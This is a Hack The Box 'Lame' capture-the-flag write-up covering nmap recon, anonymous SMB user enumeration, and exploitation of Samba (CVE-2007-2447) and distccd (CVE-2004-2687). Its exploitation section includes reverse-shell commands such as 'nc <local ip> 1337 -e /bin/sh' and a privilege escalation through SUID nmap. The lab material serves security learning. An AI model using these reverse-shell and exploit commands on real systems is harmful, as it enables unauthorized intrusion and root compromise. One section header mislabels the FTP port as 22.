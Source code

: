 # HTB Lame Writeup

<code>#CVE-2004-2687</code> <code>#CVE-2007-2447</code> <code>#CVE-2011-2523</code> <code>#vsFTPd</code> <code>#smbd</code> <code>#nmap</code>

## Reconnaissance

`nmap -sC -sV -p- -Pn 10.10.10.3`

```
Nmap scan report for 10.10.10.3
Host is up (0.079s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.42
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-11-07T23:38:51-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h26m42s, deviation: 3h32m10s, median: -3m19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 199.67 seconds
```

## Enumeration

### Port 22 - File Transfer Protocol
- Anonymous login using:
	- ftp : ftp
	- anonymous : anonymous
	- anonymous :
- vsFTPd 2.3.4
	- CVE-2011-2523: Backdoor command execution vulnerability
	- opens shell on port 6200/tcp
	- Exploit was not successful

### Port 139, 445 - Server Message Block
- Null Session
	 `rpcclient 10.10.10.3 -U '' -N`

```
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
rpcclient $> enumdomgroups
rpcclient $> enumdomgroup
command not found: enumdomgroup
rpcclient $> enumdomusers
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
```

- Samba smbd 3.0.20
	- CVE-2007-2447 - Arbitrary Code Execution
		- [Exploit Github Repository](https://github.com/amriunix/CVE-2007-2447)

### Port 3632 - DistCC Daemon
- Distcc is designed to speed up compilation by taking advantage of unused processing power on other computers. A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed.
- CVE-2004-2687
	- [Exploit Github Repository](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

## Exploitation

### Exploitation #1: CVE-2007-2447
`kali@kali:/$ nc -lvnp 3333`

`kali@kali:/$ ./usermap_script.py 10.10.10.3 139 10.10.14.13 3333`

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screen Shot 2022-12-19 at 10.36.35 PM.png" width=50% height=50%>
<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screen Shot 2022-12-19 at 10.37.01 PM.png" width=50% height=50%>

### Exploitation #2: CVE-2004-2687

`kali@kali:/$ nc -lvnp 1337`

`kali@kali:/$ ./disccd_exploit.py -t <victim ip> -p 3632 -c "nc <local ip> 1337 -e /bin/sh"`

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screen Shot 2022-12-19 at 10.50.26 PM.png" width=50% height=50%>
<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screen Shot 2022-12-19 at 10.51.21 PM.png" width=50% height=50%>

### Privilege Escalation w/ Exploitation #2

Important SUID files:
`-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap`
- nmap version 4.53
- The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands with root privileges due to owner being root
- [GTFOBins]( https://gtfobins.github.io/gtfobins/nmap/)

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screen Shot 2022-12-19 at 11.20.34 PM.png" width=50% height=50%>




